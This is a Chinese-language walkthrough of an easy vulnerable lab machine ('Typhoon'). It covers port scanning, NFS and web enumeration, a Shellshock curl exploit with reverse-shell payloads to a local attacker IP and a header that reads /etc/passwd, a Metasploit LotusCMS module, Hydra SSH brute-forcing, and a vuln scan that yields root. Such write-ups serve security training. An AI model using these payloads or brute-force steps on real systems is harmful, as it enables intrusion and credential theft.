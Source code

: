 
## 靶机信息
级别:容易
有多种方式取得立足点



## Recon
### nmap
```shell
nmap -sn 192.168.1.0/24
//IP:192.168.1.156

sudo nmap --min-rate 10000 -sT -p- 192.168.1.156 -oA tcp_scan/ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
25/tcp    open  smtp
53/tcp    open  domain
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
143/tcp   open  imap
445/tcp   open  microsoft-ds
631/tcp   open  ipp
993/tcp   open  imaps
995/tcp   open  pop3s
2049/tcp  open  nfs
3306/tcp  open  mysql
5432/tcp  open  postgresql
6379/tcp  open  redis
8080/tcp  open  http-proxy
27017/tcp open  mongod
36369/tcp open  unknown
36882/tcp open  unknown
39914/tcp open  unknown
49446/tcp open  unknown
59463/tcp open  unknown
```

## nfs
```shell
showmount -e 192.168.1.156
/typhoon
sudo mount -t nfs 192.168.1.156:/typhoon /tmp
<rec0nm4st3r> R3c0n_m4steeeee3er_fl4g </rec0nm4st3r>
```

## ftp
```shell
ftp 192.168.1.156 //匿名登录 FTP没有内容
```

## Web
```shell
gobuster dir -u http://192.168.1.156 -w /usr/share/wordlists/dirb/common.txt
/robots.txt           (Status: 200) [Size: 37]
```
![[Pasted image 20231014175943.png]]
打开是一个phpMoAdmin页面
![[Pasted image 20231014180158.png]]



### 目录爆破
![[Pasted image 20231014180322.png]]
## CMS
![[Pasted image 20231014180353.png]]
看到是LotusCMS

## 取得立足点
#### nikto发现cve-2014-6271
```shell

nikto -h 192.168.1.156
+ /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271(破壳漏洞)

nc -lvnp 1234

curl -H 'x: () { :;};a=`/bin/cat /etc/passwd`;echo $a' 'http://IP地址/cgi-bin/test.sh' -I //测试命令

curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.1.136/9999 0>&1' http://192.168.1.156/cgi-bin/test.sh 
// or
curl -H 'x: () { :;};a=`/bin/bash -i >& /dev/tcp/192.168.1.136/1234 0>&1`;echo $a' http://192.168.1.156/cgi-bin/test.sh
```

### CMS
#### MFS
```shell
LotusCMS

msfconsole
search LotusCMS
0  exploit/multi/http/lcms_php_exec  2011-03-03       excellent  Yes    LotusCMS 3.0 eval() Remote Command Execution
set URI /cms/
```

### phpmyadmin

![[Pasted image 20231014190204.png]]

```shell
通过phpmyadmin查看到一些账户名，hydra爆破SSH密码
hydra -l typhoon -P /usr/share/wordlists/rockyou.txt 192.168.1.156 ssh -t 16 
typhoon，789456123


```
有一个flag
![[Pasted image 20231014192422.png]]

## smtp
```shell
sudo nmap -p 139,445 --script=vuln --script-args=unsafe=1 192.168.1.156  
msfconsole
```
![[Pasted image 20231014194450.png]]
这里直接得到了root权限
![[Pasted image 20231014194606.png]]

## phpMoAdmin
![[Pasted image 20231014201154.png]]




